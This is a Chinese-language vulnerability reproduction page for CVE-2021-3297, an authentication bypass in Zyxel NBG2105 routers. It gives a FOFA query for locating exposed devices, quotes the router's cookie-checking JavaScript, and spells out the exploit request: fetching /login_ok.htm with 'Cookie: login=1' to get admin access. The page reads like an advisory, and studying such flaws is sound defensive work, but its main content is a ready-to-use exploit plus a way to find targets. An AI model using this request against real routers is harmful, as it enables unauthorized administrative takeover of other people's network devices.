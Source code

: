 # Zyxel NBG2105 身份验证绕过 CVE-2021-3297

## 漏洞描述

Zyxel NBG2105 存在身份验证绕过，攻击者通过更改 login参数可用实现后台登陆

## 漏洞影响

> [!NOTE]
>
> Zyxel NBG2105

## FOFA

> [!NOTE]
>
> app="ZyXEL-NBG2105"

## 漏洞复现

登录页面如下

![](http://wikioss.peiqi.tech/vuln/zyxel-5.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

其中前端文件 **/js/util_gw.js** 存在前端对 Cookie login参数的校验

![](http://wikioss.peiqi.tech/vuln/zyxel-6.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

可以看到检测到 Cookie中的 **login=1** 则跳转 home.html

```
function setCookie() //login_ok.htm use
{
	document.cookie="login=1";
	MM_goToURL('parent', 'home.htm');
}
```

请求如下则会以管理员身份跳转到 **home.htm页面**

```
http://xxx.xxx.xxx.xxx/login_ok.htm

Cookie: login=1;
```

![](http://wikioss.peiqi.tech/vuln/zyxel-7.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 参考文章

https://github.com/nieldk/vulnerabilities/blob/main/zyxel%20nbg2105/Admin%20bypass